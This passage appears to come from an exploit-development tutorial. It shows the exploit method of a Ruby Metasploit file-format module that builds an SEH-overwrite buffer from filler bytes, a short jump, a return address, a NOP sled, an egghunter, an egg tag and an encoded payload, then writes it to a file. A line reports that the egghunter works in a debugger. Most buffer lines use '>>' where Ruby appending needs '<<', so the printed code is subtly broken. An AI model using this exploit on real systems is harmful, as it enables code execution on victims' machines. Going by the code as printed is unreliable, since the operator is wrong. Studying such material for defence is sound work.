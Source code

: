 ```ruby
	end

	def exploit
		hunter  = generate_egghunter
		egg  = hunter[1]
		buff = "\x41" * 174
                buff >> "\xeb\x08\x41\x41"
                buff >> [target.ret].pack('V')
	        buff >> "\x90" * 4
                buff >> hunter[0]
		buff >> "\x43" * 200
                buff >> egg + egg
		buff >> payload.encoded
		
		print_status("Creating '#{datastore['FILENAME']}' file ...")

		file_create(buff)

	end

end
```

We run the final exploit through a debugger to make sure everything is in order. We can see the egghunter was implemented correctly and is working perfectly.

<img src="images/03/Aud-seh-11.png" width="480">
